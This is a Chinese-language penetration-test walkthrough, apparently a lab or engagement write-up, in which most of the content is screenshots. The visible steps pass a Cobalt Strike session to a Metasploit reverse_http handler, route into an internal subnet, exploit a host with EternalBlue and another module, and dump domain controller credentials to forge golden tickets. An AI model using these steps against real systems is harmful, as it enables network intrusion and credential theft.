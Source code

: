 ![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8J1DD94XgPVYaLZVMaOSynUbADlRWnH2iaXaicTQvWQbZZx5bfc5Lpmw8lCKV7xXHo6HJJicBgnPgrQ/640?wx_fmt=png)

在 cs 上不方便操作, 派生会话给 msf 首先在 msf 上执行如下操作

•use exploit/multi/handler•set payload windows/meterpreter/reverse_http（跟 cs 上选用的 payload 一样）•set lhost 本机 ip•set lport 接受的端口 •exploit 执行

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8J1DD94XgPVYaLZVMaOSyn1QR93ptAFcpT5LicK96540YbH66OQW2XARHG5uKiaDypCvhpecr6GMjg/640?wx_fmt=png)

回到 cs 上创建一个 foreign 监听的 listeners

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8J1DD94XgPVYaLZVMaOSynDSt4W0bibasm8WganUWgv0bNIUNKOSty0NhB8kTFI5dL4hyRLqjk31Q/640?wx_fmt=png)

创建后右键 WEB 选择增加会话

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8J1DD94XgPVYaLZVMaOSyn17RzMM3sOmiaDgXL0uMvb0AddEHryKOXQv7iadVloxouibJ0tUdlhpIfw/640?wx_fmt=png)

选择 msf 的 payload

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8J1DD94XgPVYaLZVMaOSyn76jwYwFo7QbibEB4v517CWr8K6tAgyThDyTArewrzDavezeRmsOfbNw/640?wx_fmt=png)

msf 等待 shel 反弹即可

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8J1DD94XgPVYaLZVMaOSynaMbd5unejlUXj8d1UibX1f5PibGK5QSlEtlhBxPXXF543NNvAIJibzn3g/640?wx_fmt=png)

由于目标不出网, 需要先添加路由

•run get_local_subnets•run autoroute -s 10.10.10.0/24•run autoroute -p

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8J1DD94XgPVYaLZVMaOSynfYtfqwwTsKTPUmh5mmBIP4uiaPcE2icqxadQuzuQtkviavPMCHuIUa7tA/640?wx_fmt=png)

一开始使用`windows/smb/ms17_010_eternalblue`这个模块

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8J1DD94XgPVYaLZVMaOSynG5eeZVrEDE2fXO0pXS1oZ7AK5C24qaYfTxTrS1Vlykx3JLNwKNomGQ/640?wx_fmt=png)

已经攻击成功了但是没有 session 返回, 去看了一眼, 好家伙, 直接蓝屏

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8J1DD94XgPVYaLZVMaOSynDwcnhM8ibpPelD4s5BMkgzktblibszHrNTpoekl9mlrgp3RDja16ZXiaw/640?wx_fmt=png)

所以这个模块一定要慎用。索性换个模块 成功拿下

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8J1DD94XgPVYaLZVMaOSynajNBeiaq389O5mYuicwqNIrzxL1Dz3rmlYsiajA07iaiawNchv3GtUsW8tw/640?wx_fmt=png)

### 抓取 DC 密码

hashdump

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8J1DD94XgPVYaLZVMaOSynXn4ric4OQC7ibsXGkreicicd2Eib8ES083UkzLULfx47hMhm6iamxhjZ428g/640?wx_fmt=png)

有了域内`KRBTGT`账户的 hash 就可以伪造黄金票据

logonpasswords

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8J1DD94XgPVYaLZVMaOSynv5K3mTQZMajgqCV8XU6Vce6DC538YnHFibofaWc7zIzdpwWjgic6VXbw/640?wx_fmt=png)
